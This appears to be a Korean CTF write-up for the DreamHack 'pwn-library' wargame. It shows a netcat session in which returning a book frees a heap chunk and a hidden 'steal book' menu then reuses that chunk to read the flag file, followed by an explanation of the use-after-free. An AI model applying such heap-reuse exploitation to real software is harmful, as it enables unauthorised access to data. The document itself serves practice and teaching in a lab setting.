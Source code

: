 ```yaml
---
layout: post
subtitle: DreamHack pwn-library
comment: true
tags: [CTF, pwn]
---
```

# [문제](https://dreamhack.io/wargame/challenges/118/writeups)

```ts
$ nc host1.dreamhack.games 24206

[*] Welcome to library!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 1
[*] Welcome to borrow book menu!
1. theori theory
2. dreamhack theory
3. einstein theory
[+] what book do you want to borrow? : 1
book create complete!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 3
[*] Welcome to return book menu!
[*] lastest book returned!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 275
[*] Welcome to steal book menu!
[!] caution. it is illegal!
[+] whatever, where is the book? : /home/pwnlibrary/flag.txt
[*] how many pages?(MAX 400) : 256

[*] (Siren rangs) (Siren rangs)
[*] Oops.. cops take your book..
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 2
[*] Welcome to read book menu!
0 : -----returned-----
[+] what book do you want to read? : 0
[*] book contents below [*]
DH{--------flag-----------}


1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 
```


* [참고](https://linarena.github.io/linux_0x07)
UAF취약점을 이용한 문제입니다. 익스플로잇하기 전 단서들을 정리해보면
1. `steal_book`에서 `secretbook.contents`에 얼마나 메모리를 할당할지 결정할 수 있습니다.(단, 0x190 즉 400바이트 이상으로는 할당할 수 없습니다.)
2. `steal_book`에서 어떤 경로의 파일을 열 것인지 결정할 수 있습니다.
3. `burrow_book`에서는 항목 별로 힙에 할당되는 메모리 크기가 `0x100`, `0x200`, `0x300`으로 정해져 있습니다.
4. `return_book`에서는 `burrow_book`에서 할당받은 메모리를 `free`시킬 수 있습니다.
5. `contents`필드의 접근은 `read_book`함수로만 가능합니다.
이를 바탕으로 시나리오를 써 보면 

`read_book`을 이용해야지 `contents`를 읽을 수 있기 때문에, `secretbook.contents`가 할당받는 주소를 `return_book`이 읽을 수 있어야 합니다. 따라서 `burrow_book`을 통해 `0x100`크기의 주소를 할당받고 `return_book`을 통해 `free`시켜줍시다.
그러면 그 chunk(주소)는 `bin` double linked list에 저장되어 추후에 동일한 크기의 할당이 있을 경우 재사용됩니다. 그 후 `steal_book`을 통해 `0x100`(256바이트)크기의 영역을 할당해 `flag`를 읽으면 `bin`리스트 안의 `0x100`크기로 할당받았던 chunk가 재활용되게 됩니다.
`read_book`함수는 이전에 `free`되었던 내용이라도 똑같이 읽기 때문에 이제 플래그를 읽을 수 있습니다.